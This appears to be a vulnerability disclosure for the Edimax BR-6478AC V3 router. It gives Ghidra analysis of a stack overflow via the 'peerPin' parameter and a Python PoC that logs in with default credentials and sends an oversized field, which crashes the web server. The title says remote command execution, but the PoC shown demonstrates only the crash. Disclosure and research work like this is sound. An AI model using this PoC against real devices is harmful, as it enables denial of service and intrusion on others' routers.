







# EDIMAX RCE
**description**: 
a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 


using ghidra we can know the action is formWsc

and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:



## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow


The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault



[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
